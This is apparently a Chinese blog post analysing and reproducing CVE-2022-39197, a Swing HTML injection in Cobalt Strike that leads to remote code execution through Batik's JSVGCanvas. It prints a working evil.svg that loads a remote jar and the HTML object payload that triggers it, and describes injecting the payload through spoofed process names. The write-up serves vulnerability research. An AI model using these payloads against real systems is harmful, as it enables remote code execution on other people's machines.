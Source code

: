 title: CVE-2022-39197 CS RCE复现分析
author: bmth
tags:
  - CVE-2022-39197
categories:
  - 漏洞分析
date: 2023-03-22 21:21:00
top_img: 'https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png'
cover: 'https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png'
---
![](https://img-blog.csdnimg.cn/420b2c2b684b4ff29ec02913777400a7.png)

Cobalt Strike（也称CS）由美国Red Team开发，是一款基于java的内网渗透测试工具，是最早的公共红队指挥和控制框架之一。Cobalt Strike旨在通过模拟几种可能的攻击工具和场景，允许渗透测试人员和网络防御人员检查他们的安全专业的强度。然而，安全测试套件也被黑客（包括勒索软件团伙）广泛使用，以渗透目标网络

该漏洞存在于Cobalt Strike的Beacon软件中，可能允许攻击者通过在Beacon配置中设置假用户名，触发XSS，进而在 CS Server上造成远程代码执行

影响范围：
- Cobalt Strike <= 4.7

漏洞原文：[https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-1/](https://www.cobaltstrike.com/blog/out-of-band-update-cobalt-strike-4-7-1/)

## Swing框架
这个漏洞本质上是java自带的GUI组件swing的html注入

从官方给出的文档：[https://docs.oracle.com/javase/tutorial/uiswing/components/html.html](https://docs.oracle.com/javase/tutorial/uiswing/components/html.html)
可以知道，Swing本身是支持HTML的标签的，只需要`just put the <html> tag at the beginning of the text, then use any valid HTML in the remainder`

写一个demo测试一下
```java
import javax.swing.*;
import java.awt.*;

public class SwingDemo {
    public static void main(String[] args) {
        JFrame frame = new JFrame("SwingDemo");
        frame.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
        frame.setPreferredSize(new Dimension(400, 400));
        JLabel label = new JLabel("<html><img scr=x></html>");
        frame.getContentPane().add(label);
        frame.pack();
        frame.setVisible(true);
    }
}
```
![](https://img-blog.csdnimg.cn/c131303c71b44e159f3e972fb6e091b9.png)

发现成功解析了img标签，但其实这套html的解析引擎是java自己实现的，并不是引了一个第三方引擎
在rt.jar包里面的`javax.swing.text.html.HTML`实例化了一堆Tag对象和Attribute对象
![](https://img-blog.csdnimg.cn/02000610cfb241deb287efce80694fd0.png)

并在`javax.swing.text.html.HTMLDocument`类中将每个之前实例化的Tag都对应指定了一个Action类
![](https://img-blog.csdnimg.cn/dad49d0f0b2f4f18add812abfcf5135c.png)

`javax.swing.text.html.HTMLEditorKit`里的create方法可以看到不同的标签会创建不同的view
![](https://img-blog.csdnimg.cn/a1f72785a81d4784947fb9c853411bc5.png)

我们就可以看到这里script直接返回HiddenTagView了，说明并不支持script标签，也就没办法执行js代码
但这里其实存在一个**object**标签
![](https://img-blog.csdnimg.cn/fbd090cc9121498f8bb4064c3f354f39.png)

它反射并实例化一个继承Component的类并且通过param进行参数传递
![](https://img-blog.csdnimg.cn/8ec64fe147b24d979ce3a88dfdbb95c7.png)

跟进setParameters方法，可以看到该参数必须是string类型，并且必须是可写方法
![](https://img-blog.csdnimg.cn/e51b685e5c424486b1742941f268050d.png)

总结下来就是：
- classid传入需要实例化的类，类必须继承与Component
- 必须存在无参构造方法
- 必须存在一个属性XXX，并且该属性有setXXX函数
- setXXX方法的传参数必须是接受一个string类型的参数

## JSVGCanvas RCE
最终师傅们找到了一个
```
org.apache.batik.swing.JSVGCanvas-->setURI
```
![](https://img-blog.csdnimg.cn/11aee6241e034cf1a299526ffea8f1d8.png)

这个方法的功能是设置SVG图片的地址，远程加载SVG图片
在网上找了一个XXE的漏洞：[Apache Batik XXE—【CVE-2017-5662】](https://xz.aliyun.com/t/1920/)，但是这个漏洞在1.9版本就已经修复了，现在的batik版本已经是1.14

在解析svg时会调用到`org.apache.batik.bridge.BaseScriptingEnvironment`类的loadScripts方法
![](https://img-blog.csdnimg.cn/1eb16af67865497a9d42150842a8e959.png)

可以看出通过获取type来走不同的分支流程，默认为`text/ecmascript`，这种方式可以通过javascript库来执行命令，但是由于默认CS的jar包中并没有javascript库，导致这种方式并不能执行利用，但是我们可以走另一个分支流程，是type为`application/java-archive`的情况
![](https://img-blog.csdnimg.cn/43ba5354fcc9457f8d290e1cf5230849.png)

这段代码通过var26加载远程的jar包，然后loadClass加载var13对应的类，如果var26可控，那么我们就可以通过这种方式来构造RCE

跟进`XLinkSupport.getXLinkHref`方法
![](https://img-blog.csdnimg.cn/67f0e05d3b7745449fb344b7881eb2e2.png)

发现是URL地址来自于namespaceURI为`http://www.w3.org/1999/xlink`的href属性


这里有两种方式：
一种是实现EventListenerInitializer类，MANIFEST.MF指定SVG-Handler-Class
一种是实现ScriptHandler类，MANIFEST.MF指定Script-Handler


其实早在2012年就有利用方式了：[https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html](https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html)
evil.svg：
```svg
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0">
	<script type="application/java-archive" xlink:href="http://127.0.0.1:8000/EvilJar-1.0-jar-with-dependencies.jar"/>
	<text>CVE-2022-39197</text>
</svg>
```
然后Swing加载
```html
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='http://127.0.0.1:8000/evil.svg'></object>
```
![](https://img-blog.csdnimg.cn/18faec9bd237413ebb784030213fb29d.png)

成功rce
## 漏洞利用
网上已经公开了脚本：[https://github.com/its-arun/CVE-2022-39197](https://github.com/its-arun/CVE-2022-39197)

可以通过frada脚本来hook win api修改tasklist返回的进程名，将进程名改写成攻击payload，当攻击者点击beacon执行列出进程时，只要他浏览到带有payload的进程名，就会执行RCE
![](https://img-blog.csdnimg.cn/7d5ccb96afa3482f9f44aaa8621687df.png)


参考文章：
[CS的RCE利用研究](https://xz.aliyun.com/t/11815)
[最新CS RCE曲折的复现路](https://mp.weixin.qq.com/s/l5e2p_WtYSCYYhYE0lzRdQ)
[反制Cobaltstrike的那些手段](https://forum.butian.net/share/1975)
[最新CS RCE（CVE-2022-39197）复现心得分享](https://mp.weixin.qq.com/s/89wXyPaSn3TYn4pmVdr-Mw)
[CS Xss2Rce CVE-2022-39197分析与复现](https://cloud.tencent.com/developer/article/2220765)
